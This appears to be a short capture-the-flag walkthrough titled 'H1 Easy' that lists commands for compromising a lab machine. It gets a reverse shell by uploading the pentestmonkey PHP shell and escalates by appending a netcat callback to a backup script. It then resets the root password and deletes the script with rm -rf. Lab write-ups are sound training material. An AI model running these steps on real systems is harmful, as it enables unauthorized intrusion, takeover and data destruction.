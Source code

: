 # H1 Easy
1. `nc -nvlp 45455`
2. `http://$IP:8002/lesson/1`
3. Paste PHP reverse shell of pentest monkey
4. `nc -nvlp 34344`
5. `echo "netcat $IP 34344" >> /home/serv3/backups/backup.sh`
6. `passwd` and change root password
7. `rm -rf /home/serv3/backups/backup.sh`


